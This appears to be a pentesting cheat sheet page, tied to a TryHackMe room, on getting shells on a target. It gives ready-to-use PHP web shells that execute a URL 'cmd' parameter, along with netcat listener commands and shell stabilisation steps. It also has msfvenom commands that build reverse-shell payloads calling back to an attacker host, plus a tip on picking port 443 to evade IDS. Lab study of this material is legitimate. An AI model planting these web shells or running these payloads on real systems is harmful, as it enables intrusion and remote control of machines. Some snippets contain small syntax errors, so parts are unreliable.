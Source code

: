 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

> There is a script called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse/bind/web shells.

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compact one-line web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?=system($_GET["cmd"]." &2>1" ?? "whoami");?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo system($_GET["cmd"]." &2>1" ?? "whoami");
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec ($_GET["cmd"]." &2>1" ?? "whoami", $output).;
echo implode(' ', $output);
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
<?php
echo passthru($_GET["cmd"]." &2>1" ?? "whoami");
?>
```
</div></div>

<hr class="sep-both">

## Notes on reverse/bind shells

<div class="row row-cols-md-2"><div>

In a reverse shell, the hacker will usually listen on a port

```bash
$ nc -lnvp port
```

While in a bind shell, the hacker will listen

```bash
$ nc IP port
```

In any case, it's worth noting that such a shell is instable. 

* If you press CTRL+C, then the shell will dies while you may have wanted to cancel a command on the target instead.
* You may also want to use TAB or other utilities that make life easier.
* You can use commands requiring user input

You may also want to change the size of the terminal

* First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.
* If the terminal you want to resize, use `stty rows n` and `stty cols n`
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
```

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ ./penelope.py 4444
xxx@yyy:path$ # every working?
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2"><div>

* ➡️PHP

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).
</div><div>
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>